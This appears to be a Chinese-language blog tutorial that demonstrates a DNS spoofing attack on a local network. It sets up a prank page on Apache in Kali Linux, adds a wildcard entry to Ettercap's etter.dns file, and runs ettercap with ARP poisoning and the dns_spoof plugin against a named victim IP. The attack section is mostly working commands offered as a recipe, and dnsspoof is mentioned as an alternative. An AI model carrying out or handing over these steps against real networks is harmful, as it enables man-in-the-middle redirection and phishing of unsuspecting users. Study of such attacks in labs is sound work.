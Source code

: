 ```yaml
---
layout: post
title: 演示DNS欺骗攻击
---
```


DNS欺骗攻击利用了[中间人攻击](http://topspeedsnail.com/kali-linux-preform-man-in-middle-attack/)。攻击者更改受害者从DNS服务器查询的域名解析结果，给受害者发送恶意网页或钓鱼网页－浏览器依然显示正常的url。

本帖介绍怎么使用Ettercap施行DNS欺骗攻击，实现受害者访问任何网站都转向到攻击者指定的网站。

### 情形描述

* 同一局域网内
* 受害者IP：192.168.0.106
* 攻击者系统Kali Linux，IP地址：192.168.0.108

## 创建恶搞网站

在Kali Linux上创建恶搞网站。

**启动Apache：**

{% highlight shell %}
# service apache2 start
{% endhighlight %}

**创建恶搞网页：**

{% highlight shell %}
# vim /var/www/html/index.html
{% endhighlight %}

**写入内容：**

```
<h1>You Got Fucked!</h1>
```

你可以测试一下（http://192.168.0.108），看看Web是否可以正常提供服务。

## DNS欺骗攻击

编辑文件：

{% highlight shell %}
# vim /etc/ettercap/etter.dns
{% endhighlight %}

在文件中添加一行：

```
* A 192.168.0.108
```

所有域名查询都解析为Kali Linux的IP地址。

DNS欺骗／ARP欺骗：

{% highlight shell %}
# ettercap -i wlan0 -T -P dns_spoof -M arp /192.168.0.106///
{% endhighlight %}

![演示DNS欺骗攻击]({{ site.baseurl }}/images/2016/5/Screenshot from 2016-05-18 18-37-15.png)

## 测试

受害者访问其他网站：

![演示DNS欺骗攻击]({{ site.baseurl }}/images/2016/5/Screen Shot 2016-05-18 at 18.42.13.png)

注意：地址栏的URL并没有变

你也可以使用nslookup命令查询DNS解析结果：

```
nslookup www.baidu.com
```

***

Kali Linux中另一个执行这种攻击的工具：dnsspoof。

```
man dnsspoof
```